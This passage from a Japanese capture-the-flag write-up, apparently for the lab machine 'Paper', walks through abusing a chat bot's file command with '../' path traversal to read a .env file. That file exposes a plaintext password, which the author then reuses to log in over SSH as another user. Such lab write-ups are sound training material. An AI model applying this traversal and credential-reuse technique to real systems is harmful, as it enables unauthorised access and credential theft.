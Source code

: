  Fetching the directory listing of ../
total 32
drwx------ 11 dwight dwight 281 Feb 6 08:09 .
drwxr-xr-x. 3 root root 20 Jan 14 06:50 ..
lrwxrwxrwx 1 dwight dwight 9 Jul 3 2021 .bash_history -> /dev/null
-rw-r--r-- 1 dwight dwight 18 May 10 2019 .bash_logout
-rw-r--r-- 1 dwight dwight 141 May 10 2019 .bash_profile
-rw-r--r-- 1 dwight dwight 358 Jul 3 2021 .bashrc
-rwxr-xr-x 1 dwight dwight 1174 Sep 16 2021 bot_restart.sh
drwx------ 5 dwight dwight 56 Jul 3 2021 .config
-rw------- 1 dwight dwight 16 Jul 3 2021 .esd_auth
drwx------ 2 dwight dwight 44 Jul 3 2021 .gnupg
drwx------ 8 dwight dwight 4096 Sep 16 2021 hubot
-rw-rw-r-- 1 dwight dwight 18 Sep 16 2021 .hubot_history
drwx------ 3 dwight dwight 19 Jul 3 2021 .local
drwxr-xr-x 4 dwight dwight 39 Jul 3 2021 .mozilla
drwxrwxr-x 5 dwight dwight 83 Jul 3 2021 .npm
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 sales
drwx------ 2 dwight dwight 6 Sep 16 2021 .ssh
-r-------- 1 dwight dwight 33 Jun 19 04:36 user.txt
drwxr-xr-x 2 dwight dwight 24 Sep 16 2021 .vim
```  

とりあえずはbotのlistコマンドとfileコマンドで情報収集ができそうである。  
※user.txtがあるが、botの権限では中身の表示は出来なかった。  

色々漁って見た結果、下記コマンドでrecyclopsのPasswordが得られた。  
```recyclops file ../hubot/.env```  
結果  
```
 <!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>
```  

とりあえず得られた認証情報でssh接続可能か試してみる。  
```$ ssh recyclops@paper.htb```  
recyclopsアカウントではログインできなかった。  

チャットを見るとrecyclopsを導入したのはDwightKSchruteというユーザということが分かる。  

パスワードを使いまわしている可能性があるので、このアカウントでも試してみる。  
```$ ssh dwight@paper.htb```  
先ほどのパスワードをいれると、接続できた。  
```
dwight@paper.htb's password: 
Activate the web console with: systemctl enable --now cockpit.socket
